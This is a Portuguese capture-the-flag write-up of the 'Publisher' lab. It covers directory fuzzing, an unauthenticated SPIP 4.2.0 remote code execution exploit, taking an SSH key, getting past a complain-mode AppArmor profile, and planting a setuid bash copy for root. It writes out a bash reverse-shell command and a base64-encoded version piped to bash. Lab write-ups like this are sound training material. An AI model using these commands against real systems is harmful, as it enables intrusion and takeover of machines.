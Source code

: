 # _**Publisher CTF**_
![](pub.jpg)

No começo da sala, temos a seguinte descrição:  
_Por meio de uma série de técnicas de enumeração, incluindo fuzzing de diretório e identificação de versão, uma vulnerabilidade é descoberta, permitindo a Execução Remota de Código (RCE)_  
_Tentativas de escalonamento de privilégios usando um binário personalizado são dificultadas pelo acesso restrito a arquivos e diretórios críticos do sistema, exigindo uma exploração mais aprofundada do perfil de segurança do sistema para, em última análise, explorar uma brecha que permite a execução de um shell bash não confinado e obter escalonamento de privilégios_

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Temos uma página web, vamos investigar  
Vamos realizar um scan com <mark>Gobuster</mark> para procurar por diretórios
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Encontramos alguns diretórios, mas nada de útil  
Vamos tentar novamente, mas com _directory-list-2.3-medium.txt_  
E temos um diretório diferente  

![](second_return_gobuster.jpg)

Vamos executar novamente um scan com <mark>Gobuster</mark> neste novo diretório descoberto  

![](third_return_gobuster.jpg)

Ao investigar estes diretórios descobertos, somos levados a uma página de login que pede e-mail e senha  
Apesar de estar em frânces, é possível traduzir  
Pesquisando ainda nos diretórios encontrados, temos a versão do **SPIP**: 4.2.0  
No google, encontramos um [exploit RCE](https://www.exploit-db.com/exploits/51536) sem autenticação necessária!  
Vamos executar os seguintes comandos
> ```bash
> echo -n "bash -i >& /dev/tcp/[vpn_ip_address]/[port] 0>&1" | base64 -w0
> python3 51536.py -u 'http://10.10.147.142/spip' -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjMuMTU5LzQ0NDQgMD4mMQ== | base64 -d | bash'
> ```
Ao executar o código, recebemos um erro  
Pesquisando como corrigir este erro, é preciso utilizar ```pip install```  
Como estou utilizando o Kali, fui procurar alternativas  
Encontrei [este código](https://github.com/notomodo/THM/blob/main/51536_urllib3_fix.py?source=post_page-----2a028b2786b3---------------------------------------)
E funcionou!  

![](shell_obt.jpg)

## _**Escalando privilégios**_
Para escalarmos privilégios, verificamos a dica que recebemos para a segunda flag  
_Look to the App Armor by it's profile_  
Após executar alguns comandos procurando por binários que seriam passíveis de exploração, nada foi encontrado  
Verificando os arquivos do diretório _/home_, temos o seguinte  

![](ssh.jpg)

Podemos ver _id_rsa_, do qual podemos usar para conectar via ssh que ofereceria uma conexão mais estável e confiável  
Na tentativa de obter, descobrimos que não tem o comando ```wget```  
Vamos ter que fazer isso manualmente  
Alterando as permissões com ```chmod 600 [filename]```, tentamos login via **SSH**  
E temos login!  

![](ssh_login.jpg)

Verificando _/etc/_, encontramos **apparmor**  
Agora, para conseguirmos escalar privilégios, vamos investigar um pouco os arquivos no diretório  
O seguinte acaba chamando a atenção, _usr.sbin.ash_, um perfil **AppArmor**  
Verificando com ```cat```, temos a seguinte linha: **/usr/sbin/ash flags=(complain)**  
Isso está no modo complain, o que significa que o AppArmor não está bloqueando efetivamente, apenas registrando alertas  
Um destes diretórios é _/dev/shm_  
Vamos verificar a execução de _/bin/bash_ com ```ls -la /bin/bash```  

![](root_bash.jpg)

Vamos executar os seguintes comandos
> ```bash
> cd /dev/shm
> cp /bin/bash .
> ./bash -p
> ```

Isso nos garantiu shell bash e, portanto, acesso a _/opt_  
Alterando para o diretório e verificando as permissões, temos o arquivo _run_container.sh_ pode ser editado  
Podemos usar para obter _root_  
Vamos adicionar as linhas no início
> ```bash
> cp /bin/bash /tmp/default
> chmod +s /tmp/default
> ```

Estamos criando uma cópia de _/bin/bash_ como root e tendo como _/tmp/default_, dando a ela permissões +s que permitem que o arquivo seja executado com os privilégios do proprietário do arquivo  
Executando _run_contianer_ e em seguida indo executar _default_, obtemos _root_  

![](root_obt.jpg)

Agora, só ir atrás da flag!

